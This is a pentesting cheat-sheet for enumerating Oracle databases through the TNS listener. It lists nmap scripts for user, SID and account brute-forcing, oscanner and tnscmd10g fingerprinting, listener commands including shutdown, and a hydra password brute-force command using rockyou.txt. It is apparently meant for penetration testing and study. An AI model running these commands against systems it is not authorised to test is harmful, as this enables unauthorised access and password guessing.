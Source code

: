 ## Quick Intro

Oracle database (Oracle DB) is a relational database management system (RDBMS) from the Oracle Corporation (from [here](https://www.techopedia.com/definition/8711/oracle-database)).

When enumerating Oracle the first step is to talk to the TNS-Listener that usually resides on the default port (1521/TCP, -you may also get secondary listeners on 1522–1529-).

## Nmap Script

```
nmap -p 1521 -A $ip

nmap -n -v -sV -Pn -p 1521 –script=oracle-enum-users –script-args sid=ORCL,userdb=users.txt $ip

nmap --script "oracle-tns-version" -p 1521 -T4 -sV <IP>
# TNS listener version

nmap --script=oracle-sid-brute $ip
nmap  -n -v -sV -Pn -p 1521 --script=oracle-brute $ip
# Brute-Force Account
```

## oscanner

```
oscanner -s $ip -P 1521
```

## Fingerprint oracle tns

tnscmd10g = A tool to prod the oracle tnslsnr process

```
tnscmd10g version -h 192.168.1.101
tnscmd10g status -h 192.168.1.101
```

Other useful TNS listener commands:


| **Command** | **Purpose**                                                     |
| ----------- | --------------------------------------------------------------- |
| ping        | Ping the listener                                               |
| version     | Provide output of the listener version and platform information |
| status      | Return the current status and variables used by the listener    |
| services    | Dump service data                                               |
| debug       | Dump debugging information to the listener log                  |
| reload      | Reload the listener configuration file                          |
| save_config | Write the listener configuration file to a backup location      |
| stop        | Invoke listener shutdown                                        |

If you **receive an error**, could be because **TNS versions are incompatible** (Use the `--10G` parameter with `tnscmd10`) and if the **error persist,** the listener may be **password protected** (you can see a list were all the [**errors are detailed here**](https://docs.oracle.com/database/121/ERRMG/TNS-00000.htm#ERRMG-GUID-D723D931-ECBA-4FA4-BF1B-1F4FE2EEBAD7)) — don't worry… hydra to the rescue**:**

```
hydra -P rockyou.txt -t 32 -s 1521 host.victim oracle-listener
```
